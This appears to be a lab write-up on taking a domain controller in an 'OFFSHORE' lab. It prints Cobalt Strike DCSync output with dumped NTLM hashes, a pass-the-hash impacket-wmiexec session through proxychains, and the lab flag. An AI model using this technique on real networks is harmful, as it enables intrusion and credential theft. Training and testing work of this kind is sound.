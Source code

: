 
![[Pasted image 20240130175748.png]]
In order to get this flag you need to be on `DC02` and `DCsync` to `DC03`

from `DC02` ping `DC03` in cobalt strike to find that the IP address is `172.16.3.5`
![[Pasted image 20240130183158.png]]
looking in `BLOODHOUND` shows that `DC02` is able to `DCsync` to `DEV.ADMIN.OFFSHORE.COM`
![[Pasted image 20240130183308.png]]
setup a `socks` proxy on `DC02` and edited `/etc/proxychains4.conf` file
![[Pasted image 20240130183552.png]]
utilized `DCsync` option in `COBALTSTRIKE` beacon and was able to get `Administrator` hashes for `DC03`
```powershell
[01/30 15:58:57] beacon> dcsync DEV.ADMIN.OFFSHORE.COM
[01/30 15:58:57] [*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:DEV.ADMIN.OFFSHORE.COM /all /csv command
[01/30 15:58:57] [+] host called home, sent: 314691 bytes
[01/30 15:58:58] [+] received output:
[DC] 'DEV.ADMIN.OFFSHORE.COM' will be the domain
[DC] 'DC02.dev.ADMIN.OFFSHORE.COM' will be the DC server
[DC] Exporting domain 'DEV.ADMIN.OFFSHORE.COM'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	9404def404bc198fd9830a3483869e78	514
1105	IIS_dev	ce18f9730484ed029749730e2f82b147	512
1000	DC02$	1a1d4bd303de23a5ca0e13cda66be2e3	532480
1104	WS03$	5cf7b4d94646e8efba50f45b88c12608	4096
500	Administrator	c61f43b6a4db2676714713836b7d2ea6	512
1103	ADMIN$	4752a416bd44628c9b2c08ae338ab871	2080
1109	CORP$	7d74315ac118e8c8a7972a317b636bf6	2080

[01/30 15:59:10] beacon> dcsync ADMIN.OFFSHORE.COM
[01/30 15:59:10] [*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:ADMIN.OFFSHORE.COM /all /csv command
[01/30 15:59:10] [+] host called home, sent: 314691 bytes
[01/30 15:59:11] [+] received output:
[DC] 'ADMIN.OFFSHORE.COM' will be the domain
[DC] 'DC03.ADMIN.OFFSHORE.COM' will be the DC server
[DC] Exporting domain 'ADMIN.OFFSHORE.COM'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	ea9112d4beb759907688c9e267eff246	514
1107	MS01$	db505645b78f70ae01dd6cebbe4b2b8b	4096
1000	DC03$	a309490aabcffeea561fb1d8b36607d0	532480
1108	WS04$	2abf50d13b5e08b92ac2d90c1d125b99	4096
3101	DEV$	e2d58156ba42d6a8e83e931f5daaf62e	2080
3104	CLIENT$	8bd3e36602c3f8566f32ac3e1e69491f	2080
500	Administrator	f2594c9e60abf7e28e7601db343a7e24	512
3113	bankvault	0ce1cb01ade331cdba32d0e1fba338a1	512
14101	notreal	b35c7bf9b99f1c145e3899532e66a167	512
```
![[Pasted image 20240130183622.png]]
once I had the `DC03` `Administrator` hashes I was able to `wmiexec` onto the machine from `DC02`
```powershell
┌──(root💀gobots)-[30Jan2024 16:00:05]-[~]
└─# proxychains impacket-wmiexec ADMIN.OFFSHORE.COM/administrator@172.16.3.5 -hashes :f2594c9e60abf7e28e7601db343a7e24
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is AC12-0F78

 Directory of C:\

04/17/2021  03:54 PM    <DIR>          a20367908cc58c8e69b500
02/03/2020  12:01 PM    <DIR>          PerfLogs
04/20/2022  07:55 AM    <DIR>          Program Files
07/16/2016  08:23 AM    <DIR>          Program Files (x86)
07/17/2018  04:52 PM    <DIR>          Users
01/30/2024  04:02 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)   4,805,275,648 bytes free

```
and grabbed the `flag.txt` file
```powershell
C:\Users\Administrator>cd Desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is AC12-0F78

 Directory of C:\Users\Administrator\Desktop

11/09/2023  03:40 AM    <DIR>          .
11/09/2023  03:40 AM    <DIR>          ..
07/17/2018  04:52 PM                32 flag.txt
               1 File(s)             32 bytes
               2 Dir(s)   4,805,275,648 bytes free

C:\Users\Administrator\Desktop>type flag.txt
OFFSHORE{w@tch_th0s3_3xtra_$ids}

```
got an `administrator` beacon and injected into `SYSTEM`


